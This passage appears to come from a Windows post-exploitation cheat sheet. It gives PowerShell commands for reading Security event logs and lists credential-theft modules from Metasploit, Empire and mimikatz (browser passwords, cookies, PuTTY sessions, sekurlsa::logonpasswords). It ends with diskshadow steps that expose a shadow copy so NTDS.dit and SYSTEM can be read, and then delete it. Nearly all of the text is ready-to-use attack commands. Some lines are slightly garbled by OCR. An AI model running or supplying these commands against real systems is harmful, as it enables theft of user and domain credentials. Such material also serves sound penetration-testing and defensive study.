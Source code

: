 User must be in "Event Log Reader" group
[Follow this link](https://evotec.xyz/powershell-everything-you-wanted-to-know-about-event-logs/)

<pre class="prettyprint linenums:"><code class="language-powershell">Get-WinEvent -ListLog *

# Listing logs of a specific user
$cred = Get-Credentials
Get -WinEvent -ListLog * -ComputerName AD1 -Credentials $cred

# Reading Security logs
(Get-WinEvent -FilterHashtable @{LogName = 'Security'} | Select-Object @{name='NewProcessNam
e';expression={ $_.Properties[5].Value }}, @{name='CommandLine';expression={
$_.Properties[8].Value }}).commandline
</code></pre>


## &nbsp; &nbsp;&nbsp;&nbsp; Password Dump
<pre class="prettyprint linenums:"><code class="language-powershell"># Metasploit
post/windows/gather/enum_chrome
post/multi/gather/firefox_creds
post/firefox/gather/cookies
post/firefox/gather/passwords
post/windows/gather/forensics/browser_history
post/windows/gather/enum_putty_saved_sessions

# Empire
collection/ChromeDump
collection/FoxDump
collection/netripper
credentials/sessiongopher

# mimikatz
privilege::debug
sekurlsa::logonpasswords
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Shadow copy
There might be a case where you are privileged but can't read-access to shadow files(NTDS.dit, SYSTEM etc.)
<pre class="prettyprint linenums:"><code class="language-cmd">diskshadow.exe
set context persistent nowriters
add volume C: alias morph3
create
expose %morph3% Z:

# Deletion
delete shadows volume %morph3%
reset
</code></pre>
